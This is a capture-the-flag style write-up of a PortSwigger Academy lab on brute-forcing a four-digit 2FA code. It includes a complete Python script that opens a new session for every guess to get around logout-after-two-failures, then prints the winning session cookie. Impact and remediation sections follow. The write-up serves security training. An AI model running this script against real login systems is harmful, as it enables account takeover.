


# Authentication: 2FA Bypass Using a Brute-Force Attack

## Lab Information
- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Difficulty:** Expert
- **Status:** Solved
- **Tools:** Python, Requests Library, Burp Suite Proxy, Firefox

## Vulnerability Overview

Two-factor authentication (2FA) brute-force vulnerabilities occur when an application does not adequately restrict repeated attempts to guess MFA verification codes.

In this lab, the application logged users out after two incorrect MFA attempts. However, this restriction could be bypassed by creating a fresh authenticated session for every attempt. By automating the login process and testing all possible four-digit MFA codes, it was possible to identify the correct verification code and gain access to Carlos's account.

## Testing Process

1. Log in using Carlos's credentials (`carlos:montoya`) and investigate the MFA verification process.
2. Identify that submitting two incorrect MFA codes results in the user being logged out.
3. Develop a Python script using the `requests` library to automate the authentication and MFA verification process.
4. Implement a function to extract the CSRF token from the login and MFA verification pages.
5. Configure the script to test all possible four-digit MFA codes, ranging from `0000` to `9999`.
6. Create a fresh HTTP session for every attempt to avoid the application's logout restriction.
7. For each attempt, automate the following sequence:
   - Send `GET /login` and extract the CSRF token.
   - Send `POST /login` with Carlos's credentials.
   - Send `GET /login2` and extract the MFA CSRF token.
   - Send `POST /login2` with the generated MFA code.
8. Monitor the HTTP responses and identify a successful authentication through an HTTP `302` redirect.
9. Extract the authenticated session cookie from the successful response and replace the existing lab session cookie in Firefox.
10. Navigate directly to `/my-account` and confirm successful access to Carlos's account.

## Evidence

### Successful MFA Response



### Lab Completion



## Python Script

The following script automates the login process, extracts CSRF tokens, generates four-digit MFA codes, and creates a fresh session for every attempt.

**File:** `mfa-bruteforce.py`

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

URL = "YOUR_LAB_URL"

USERNAME = "carlos"
PASSWORD = "montoya"


# Function to extract CSRF token
def get_csrf(response):

    html = response.text

    start = html.find('name="csrf"')

    if start == -1:
        print("CSRF token not found!")
        sys.exit()

    start = html.find('value="', start)

    if start == -1:
        print("CSRF value not found!")
        sys.exit()

    start += len('value="')

    end = html.find('"', start)

    if end == -1:
        print("Invalid CSRF field!")
        sys.exit()

    return html[start:end]


# Try MFA codes from 0 to 9999
for code in range(0, 10000):

    print("\n==============================")
    mfa_code = str(code).zfill(4)
    print("Trying MFA code:", mfa_code)
    print("==============================")

    # Create a fresh session for this attempt
    s = requests.Session()
    s.verify = False

    # STEP 1: GET /login
    r = s.get(URL + "/login")

    csrf = get_csrf(r)

    print("[+] GET /login completed")

    # STEP 2: POST /login
    r = s.post(
        URL + "/login",
        data={
            "username": USERNAME,
            "password": PASSWORD,
            "csrf": csrf
        },
        allow_redirects=False
    )

    print("[+] POST /login completed")

    # STEP 3: GET /login2
    r = s.get(URL + "/login2")

    csrf = get_csrf(r)

    print("[+] GET /login2 completed")

    # STEP 4: POST /login2
    r = s.post(
        URL + "/login2",
        data={
            "csrf": csrf,
            "mfa-code": str(mfa_code)
        },
        allow_redirects=False
    )

    print("[+] POST /login2 completed")
    print("MFA attempted:", mfa_code)
    print("Status code:", r.status_code)
    print("Redirect location:", r.headers.get("Location"))

    if r.status_code == 302:
        print("[+] Redirect detected!")
        print("Location:", r.headers.get("Location"))
        print("Session Cookies:", s.cookies.get_dict())
        print("CSRF Token:", csrf)

        break
```

## Impact

- Allows attackers to brute-force four-digit MFA verification codes.
- Enables attackers to bypass restrictions based on consecutive failed attempts.
- Can lead to unauthorised access to protected user accounts.
- Weakens the security provided by multi-factor authentication.

## Remediation

- Implement server-side rate limiting for MFA verification attempts.
- Track failed MFA attempts across sessions rather than relying only on individual sessions.
- Introduce progressive delays or temporary lockouts after repeated failures.
- Bind MFA verification attempts to secure, server-side authentication sessions.
- Monitor suspicious authentication activity.
- Implement additional protections against automated MFA guessing.

## References

- [PortSwigger: 2FA Bypass Using a Brute-Force Attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)
- [OWASP: Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)